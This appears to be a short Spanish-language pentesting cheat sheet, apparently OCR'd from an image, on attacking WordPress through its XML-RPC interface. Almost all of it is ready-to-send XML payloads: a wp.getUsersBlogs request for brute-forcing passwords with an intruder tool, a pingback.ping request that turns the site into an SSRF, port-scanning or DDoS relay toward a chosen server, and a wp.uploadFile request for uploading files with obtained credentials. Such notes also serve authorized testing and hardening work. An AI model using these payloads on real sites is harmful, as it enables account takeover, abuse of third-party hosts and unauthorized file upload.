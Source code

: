 Ataque de fuerza bruta: (lo mandamos al intruder)

```xml
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

DDoS o escaneo de puertos (SSRF):

Si puede encontrar el método **pingback.ping** dentro de la lista, puede hacer que Wordpress envíe una solicitud arbitraria a cualquier host / puerto. Si obtiene **faultCode** con un valor mayor a 0, significa que el puerto está abierto.

```xml
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

carga de archivos:

con las credenciales correctas se puede hacer lo siguiente

```xml
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```
